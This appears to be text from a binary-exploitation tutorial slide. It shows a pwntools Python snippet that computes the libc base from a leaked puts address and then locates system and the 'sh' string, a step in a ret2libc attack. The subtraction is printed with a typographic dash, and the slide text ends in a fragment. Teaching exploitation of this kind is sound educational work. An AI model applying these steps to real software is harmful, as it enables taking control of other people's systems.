

# Time To Do Some Math
from pwn import *
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
puts_libc = 0x7f365d1a9420
puts_offset = libc.symbols['puts']
libc_base = puts_libc – puts_offset
system_addr = libc_base + libc.symbols['system']
sh_addr = libc_base + next(libc.search(b"sh\0"))

# Load libc
  library